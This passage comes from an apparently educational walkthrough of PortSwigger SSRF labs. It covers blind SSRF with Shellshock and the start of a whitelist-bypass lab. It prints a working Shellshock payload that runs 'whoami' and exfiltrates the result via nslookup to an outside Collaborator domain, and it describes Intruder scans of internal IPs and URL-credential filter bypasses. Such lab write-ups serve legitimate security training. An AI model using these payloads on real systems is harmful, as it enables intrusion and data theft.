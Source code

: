 4. Here, you can see my OS hostname reflected as a subdomain of the Collaborator URL. Let’s try this in the ‘User-Agent’ header.

Shellshock Payload:
-------------------

```
() { :; }; /usr/bin/nslookup $(whoami).qtnaphrynousb1w5nosr9upqkhq8ey2n.oastify.com
```

Let’s add the payload in the ‘User-Agent’ header. Now we need to use Burp Collaborator to record the response.

In the above, we ran the payload directly in the terminal, so it responded with a DNS response. In HTTP request, we need to know in which IP address the web server is running, only with that information we can run the command.

In the ‘Referer’ header, we need to use the IP range to find the internal server IP.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*cLxEzoApYn9qmLNp64dpeg.png)

Send the request to ‘Intruder’ tab. Add the shellshock payload to the ‘User-Agent’ header. Add the IP to the ‘Referer’ header.

Set the Payload to numbers and set the range from 1 to 254 and start the attack. When the attack is finished, Check the Burp Collaborator.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*voCYgIVrC34ZRjNHHtg2pw.png)

We found the OS user of the internal server. Let’s submit the answer in lab.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*dJ_sPx2UWNnzLLtVKXRqSw.png)

We solved the lab.

Lab 6: SSRF with whitelist-based input filter (Expert)
======================================================

**Description:** This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`. The developer has deployed an anti-SSRF defense you will need to bypass. #WhitelistBypass

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*JgSHJRQFBAhAEZj_7F6G0Q.png)

We have a stock-checker feature just like before. Now we can try our usual payload to check what happens.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*kUeb9tjmsq-QvhW-v7n_Bg.png)

So, the application is parsing the URL, extracting the hostname, and validating it against a whitelist domain ‘stock.weliketoshop.net’.

Many URL parsers allow for embedded credentials in the format [http://username:password@domain.com](http://username:password@domain.com). So, Let’s try it.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*yA6IFATgcYnMbY0-SW920w.png)
